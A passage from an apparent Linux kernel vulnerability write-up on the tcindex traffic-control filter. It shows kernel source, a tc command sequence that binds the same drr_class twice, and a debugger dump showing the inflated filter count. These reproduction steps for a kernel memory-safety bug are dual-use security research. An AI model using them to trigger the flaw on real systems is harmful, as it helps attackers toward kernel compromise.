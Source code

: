 You might question whether it's possible to bind the same class multiple times, as each filter bind will unbind the previous class. This essentially means that each tcindex filter can only bind the same class once. As for creating a vast number of filters to bind the same class, the kernel memory naturally cannot withstand it:

```c
static inline void
__tcf_bind_filter(struct Qdisc *q, struct tcf_result *r, unsigned long base)
{
	unsigned long cl;

	cl = q->ops->cl_ops->bind_tcf(q, base, r->classid);
	cl = __cls_set_class(&r->class, cl);
	if (cl)
		q->ops->cl_ops->unbind_tcf(q, cl);
}
```

In conclusion, one can compile a [tc](https://github.com/iproute2/iproute2/tree/main/tc) file for local environment use with static compilation, and bind the same drr_class twice:

```
/ # ./tc qdisc add dev lo handle 1 root drr
/ # ./tc class add dev lo parent 1: classid 1:1 drr
/ # ./tc filter add dev lo parent 1: handle 9 prio 1 tcindex hash 16 mask 15 classid 1:1
/ # ./tc -s filter show dev lo
filter parent 1: protocol all pref 1 tcindex chain 0 
filter parent 1: protocol all pref 1 tcindex chain 0 handle 0x0009 classid 1:1 
/ # ./tc filter replace dev lo parent 1: prio 1 tcindex hash 8 mask 7
/ # ./tc -s filter show dev lo
filter parent 1: protocol all pref 1 tcindex chain 0 
/ # ./tc filter replace dev lo parent 1: handle 9 prio 1 tcindex hash 16 mask 15 classid 1:1
/ # ./tc -s filter show dev lo
filter parent 1: protocol all pref 1 tcindex chain 0 
filter parent 1: protocol all pref 1 tcindex chain 0 handle 0x0009 classid 1:1 
/ # ./tc filter replace dev lo parent 1: prio 1 tcindex hash 8 mask 7
/ # ./tc -s filter show dev lo
filter parent 1: protocol all pref 1 tcindex chain 0 
```

```
gef➤  p *(struct drr_class *)arg
$1 = {
  common = {
    classid = 0x10001,
    hnode = {
      next = 0x0 <fixed_percpu_data>,
      pprev = 0xffff8880058142c8
    }
  },
  filter_cnt = 0x2,
```

# 0x02 Environment
